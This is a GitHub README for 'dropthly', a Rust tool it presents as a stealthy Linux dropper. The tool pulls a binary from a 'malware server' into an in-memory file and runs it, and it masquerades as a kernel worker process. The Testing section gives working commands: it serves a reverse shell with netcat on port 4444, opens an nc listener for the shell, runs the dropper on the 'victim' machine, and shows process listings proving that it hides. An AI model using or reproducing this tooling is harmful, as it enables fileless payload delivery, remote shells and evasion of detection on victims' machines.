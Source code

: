 _____________________________________________
![maxresdefault](https://github.com/user-attachments/assets/f3d868ab-0eeb-4127-9be6-bc6ff920b0df)
______________________________________________
# DROPTHLY
dropthly is a stealthy dropper for Linux which downloads and executes entire binary in memory without leaving any tracks on victims machine.

## Working
The program just use very simple and direct method to drop payload.
  1) Connect to ip 127.0.0.1 on port 4444 of malware server.<br>
  2) Creates a memory file using <code>memfd_create()</code>.<br>
  3) Reads data from the socket and writes it into the memory file.<br>
  4) Runs the memory file using <code>execveat()</code> when all the data has been transferred and also becomes stealthy.

## Testing
launch the malware-server:
```bash
malware-server$ cat ./revshell | nc -lp 4444
```
lunch revshell listener:
```bash
attacker:$ nc -lnvp 8080 //listening revshell at port 8080
```
Compile and launch dropthly on victims machine:
```bash
victim:$ cargo build --release 
victim:$ ./dropthly
```
We have currently established a TCP connection to victim machine now proceed to check the file descriptors of dropthly.
```bash
attacker:$ ps -ax | grep dropthly 
  37191 pts/5    S+     0:00 grep dropthly
```
No trace of dropthly. Now see how dropthly looks like:
```bash
attacker:$ ps -ax | grep ar.p
  36660 pts/0    S      0:00 [kworker/ar.p] 
  37039 pts/5    S+     0:00 grep ar.p
```
you can change name [kworker/ar.p] to any others from main.rs

## License
This project is licensed under [MIT](https://github.com/0x00snape/dropthly/blob/main/LICENSE)
